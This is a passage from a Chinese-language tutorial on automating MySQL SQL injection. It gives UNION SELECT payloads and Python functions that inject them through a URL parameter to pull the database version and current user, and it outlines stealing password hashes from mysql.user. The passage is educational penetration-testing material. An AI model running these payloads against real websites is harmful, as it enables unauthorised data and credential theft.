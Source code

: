 一旦我们确定了一个有效的 SQL 注入，就应该决定我们要寻找什么了。在这里，我们列出了最典型的事情：

*   **基础数据**：如数据库版本、运行数据库的用户、当前数据库、数据库目录等
*   **高级数据**：MySQL 用户名密码、数据库、表名、列名、表内容
*   **OS 文件**：只要运行数据库的用户有权限，我们就可以读取文件系统中的任何文件

这些是一些最有用、最典型的提取数据。我鼓励您继续学习在 SQL 注入工作后可以做的其他事情。
一个好的起点是 pentestmonkey 备忘单（[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 。

# 自动化基本提取

在 SQL 注入工作之后，我们想要获得的第一件事是关于我们正在使用的数据库的信息，例如数据库版本、当前用户、当前数据库等等。

为此，我们需要使用`SELECT @@ version;`。我们将获取数据库版本。`SELECT user();`将为您获取运行数据库的用户。对于我们的示例，我们必须使用以下注入来获得版本：；`'union SELECT1, @@version;-- -`。我们需要在`@@version`前面加上`1`，以匹配查询中的列数，即受 SQL 注入影响的列数。

在我们的例子中，有两列；这就是我们添加`1`的原因。

让我们转到我们的编辑器，继续处理文件`SQLinjector-2.py`。为了从数据库中获取版本和当前用户，我们添加了两个新函数。您会注意到，我们有以下注射：

```
def detect_user(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%201,CONCAT('TOK',user(),
 'TOK')--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  users=re.findall(reg,req.content)
  for user in users:
    print user
  return user

def detect_version(url):
  new_url= url.replace("FUZZ","\'%20union%20SELECT%201,CONCAT('TOK',@@version,'TOK')--%20-")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  version=re.findall(reg,req.content)
  for ver in version:
    print ver
  return ver
```

`%20`是空格字符的 URL 编码版本。我们使用`CONCAT`命令在结果的开头和结尾连接字符串对话。字符串将用作标识 HTML 结果中查询输出的标记。现在，我们将看到提取版本所需的代码。

为此，我们使用正则表达式处理结果，以识别标记并提取它们之间的字符串。我们定义正则表达式，然后使用`re`库中的`findall`函数和请求-响应的内容，然后对结果进行迭代。

在这种情况下，应该只有一个。我们将通过使用`@@version`而不是`user`执行相同的过程来获取数据库版本。

现在，我们想要获得 MySQL 用户名和密码哈希。我们需要的查询是`SELECT user, password from mysql.user;`。

请记住，只有在与数据库建立连接的用户具有访问该表的权限时，此操作才有效。最佳实践推荐游戏阶段，但许多人仍然这样做。

我们添加了函数`steal_users`来提取这些数据。我们将使用与前面相同的技术来标识 HTML 结果中的输出。让我们在命令行中运行它并查看输出。我们将使用与前面相同的命令行：

![](../images/00077.jpeg)
